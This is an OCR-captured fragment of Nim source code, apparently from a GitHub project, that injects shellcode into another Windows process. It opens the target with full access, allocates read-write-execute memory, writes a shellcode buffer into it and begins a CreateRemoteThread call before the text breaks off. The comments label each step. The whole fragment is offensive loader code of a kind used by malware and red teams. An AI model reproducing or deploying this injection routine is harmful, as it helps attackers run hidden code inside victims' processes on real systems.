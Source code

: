 ```Nim
# Open the process so we can access it with a handle

let processHandle = OpenProcess(

PROCESS_ALL_ACCESS,

false,

cast[DWORD](injectedProcess.processID)

)

# Call VirtualAllocEx to make some memory space

let memPointer = VirtualAllocEx(

processHandle,

NULL,

cast[SIZE_T](buf.len),

MEM_COMMIT,

PAGE_EXECUTE_READ_WRITE

  

)

# Call WriteProcessMemory to write shellcode into the memory

var bytesWritten: SIZE_T

  

let writeProccess = WriteProcessMemory(

processHandle,

memPointer,

unsafeAddr buf,

cast[SIZE_T](buf.len),

addr bytesWritten

  

)

echo "[*] WriteProcessMemory: "

echo bool(writeProccess)

echo " \\-- bytes written: ", bytesWritten

echo ""

# Call CreateRemoteThread to execute a thread with the shellcode stuffed in it

let threadHandle = CreateRemoteThread(
```